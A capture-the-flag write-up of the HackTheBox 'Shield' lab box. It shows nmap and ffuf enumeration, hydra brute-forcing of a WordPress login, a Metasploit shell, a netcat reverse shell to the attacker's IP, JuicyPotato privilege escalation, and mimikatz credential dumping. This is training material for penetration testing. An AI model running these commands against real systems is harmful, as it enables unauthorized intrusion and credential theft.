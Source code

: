 *2021-08-16*

*kimm3*
# Walkthrough: Shield
Platform: HackTheBox, Starting Point

Difficulty: Very Easy

This is the fourth box in the starting point series.

The boxes build on each other so make sure to save credentials and other intersting information that you find.

## Info gathering and enumeration
`export IP=10.10.10.29`
`sudo nmap $IP -p- -O -Pn --disable-arp-ping -v -oA nmap/init-scan`

![init-scan](assets/markdown-img-paste-20210816115112464.png)

A http and a sql service.

![http-start](assets/markdown-img-paste-20210816115142149.png)

A standard IIS page. Use ffuf to enumerate further.

`ffuf -u "http://10.10.10.29/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ`

![wordpress-ffuf](assets/markdown-img-paste-20210816115716830.png)

A wordpress site. If we browse to it belongs to a electric car manufacturer named SHIELDS UP. If there's a wordpress, there's a wp-login site. If we can get in there as an admin, we can use metasploit to land a shell/meterpreter.

![user-pass](assets/markdown-img-paste-20210816120702703.png)

I've put together a list of usernames and passwords previously encountered in the series, removing service accounts such as www-data and postgres. It's 24 combinations so lets use hydra to make it go quicker. The site responses differently if the user exists or not so I've previously put togheter a command to quickly fuzz usernames. It goes:
```
hydra -L users.txt -p test 10.10.10.29 http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:F=Invalid username."
```

![user-admin](assets/markdown-img-paste-20210816121950696.png)

The user admin is found. Let's try with our available passwords.

```
hydra -l admin -P pass.txt $IP http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:F=<title>Log In"
```

![admin-pw](assets/markdown-img-paste-20210816122159515.png)

The last one worked. Let's go to the page and log in.

![wp-login-success](assets/markdown-img-paste-2021081612241311.png)
## Fothoold
Easiest way to land a shell from here is using metasploit.

Fire up msfconsole and search for 'wp admin'.

![wp-admin-search](assets/markdown-img-paste-20210816122731895.png)

**Useful msfconsole commands**

`search <term>` - make a search
`use <nr/name>` - use that exploit
`info` - show info about current exploit, you can see the options you have to set here
`set <option> <value>` - set an option to a value, like the USERNAME to 'admin'.
`run` - run the exploit

![meterpreter](assets/markdown-img-paste-20210816123354267.png)

*If the exploit runs and fails to get a meterpreter, try to set the LHOST option to your tunnel IP, as it might default to something else.*

**Useful meterpreter commands**
```
ls
cd
pwd
sysinfo
getuid
upload
download
shell
```

![meterp-basic](assets/markdown-img-paste-20210816123717186.png)

The shell seems to hang for me every time I send a command, not sure if intended from the box creator or just a temporary bug.

I tried som different shells, with pretty much the same results. You can use it to enumerate the file system at least. For example you can see that the user folder contains a new user, sandra. Let's try to get a proper shell to continue enum and find a privesc. In the wordpress wp-content folder there's a folder called uploads, I uploaded nc.exe(`/usr/share/windows-resources/binaries/` in kali) and executed it with meterpreter:

`execute -f nc.exe -a "-e powershell 10.10.16.96 4242"`

*(I changed the name of nc to myownnc.exe due many other users doing the same thing with nc.exe)*

![sysinfo](assets/markdown-img-paste-20210817131013890.png)

![seimpersonateprivilege](assets/markdown-img-paste-20210817130944316.png)

From here it's easier to continue searching for exploits. The user has the "SeImpersonatePriviliege" token enabled. This could make it vulnerable to one of the potato exploits(google it).
## Privilege escalation
Ref: https://github.com/ohpe/juicy-potato

From the meterpreter, upload the JuicyPotato.exe and a bat file containing the command to start a reverse powershell with netcat(same as we did before, but this time it will be run as system account).


*I've renamed my files to not mix them with other users doing the same thing. jpjp.exe is the JuicyPotato.exe*


![jpjpexe](assets/markdown-img-paste-2021081713384024.png)

![roottxt](assets/markdown-img-paste-20210817133828292.png)
## Post expliotation
Ref: https://github.com/gentilkiwi/mimikatz

We can use mimikatz and `sekurlsa::logonpasswords` to dump passwords.

![sandra](assets/markdown-img-paste-20210817135802388.png)
